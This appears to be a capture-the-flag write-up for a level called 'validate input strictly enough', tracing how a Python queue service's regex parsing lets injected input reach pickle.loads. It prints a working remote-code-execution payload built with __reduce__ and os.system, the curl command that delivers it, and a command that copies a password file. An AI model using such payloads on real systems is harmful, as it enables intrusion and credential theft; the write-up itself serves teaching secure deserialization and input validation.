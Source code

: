 ## Level 5: validate input strictly enough

This is a quite realistic challenge:
the code is not trivial,
not badly written,
doesn't have too obvious mistakes.

What can we see easily?
The description tells us the program is uppercasing service,
and we can use like this:
```
level04@box:~$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we can see two modes of invocation,
using `worker` or `server` as the command line argument.

We could play with random invalid inputs,
but that won't really give anything interesting.
This time we really have to dig into the code.
Let's start by tracking down how the input is processed.

As we are sending the input using HTTP,
let's find the HTTP service implementation:
the `QueueHttpServer` class has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
It passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that `type` can be either "JOB" or "RESULT",
`data` is whatever we send with `curl`,
and `job` is a `Job` object,
serialized to a string using the `pickle` library.
The result will look like this:
```
type: JOB; data: OUR_DATA; job: JOB_OBJ_AS_PICKLE
```

Is this safe?
What will happen if we send `x; job: hello` as the input?
The result will look like this:
```
type: JOB; data: x; job: hello; job: JOB_OBJ_AS_PICKLE
```
We don't know yet how this serialized string is used later in the program,
but having two `job:` might be an interesting corner case.
Let's see what actually happens if we call the service with such input:
```
level04@box:~$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
That doesn't look too good.
Perhaps we successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in `QueueUtils`:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Notice the regular expression used when setting `parser`.
Since data is matched with the non-greedy pattern `.*?`,
using an input like `; job: EVIL_CODE`,
we can trick the program into matching `EVIL_CODE` as the content of `job`,
and run `pickle.loads` on it.

How can we exploit `pickle.loads`?
For that,
we need to dig into the documentation of pickle:
http://docs.python.org/library/pickle.html,
and in particular, the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about,
it looks in two places for a hint of how to pickle it.
One alternative is for the object to implement a __reduce__() method.
If provided,
at pickling time __reduce__() will be called with no arguments,
and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned,
it must be between two and five elements long.
(...)
The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object.
The next element of the tuple will provide arguments for this callable,
and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this info,
we can create a custom object type that Pickler knows nothing about,
and implement the `__reduce__` method to have the following properties:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

But what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` as the callable,
and a shell command as its argument:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output in a text file:
```
level04@box:~$ python exploit.py | tee pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
level04@box:~$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
level04@box:~$ cat /tmp/p
diebasuw
```

Bingo! The inject evil code was unpickled, and executed,
copying the content of the password file to a place where we can see.

## Lessons to learn

- Read the docs well:
  the documentation of pickle warns loud and clear right at the top not to unpickle untrusted text.

- Validate input strictly enough.
  Trace in your code all the places where the input may pass through,
  and make sure your validation is strict enough.

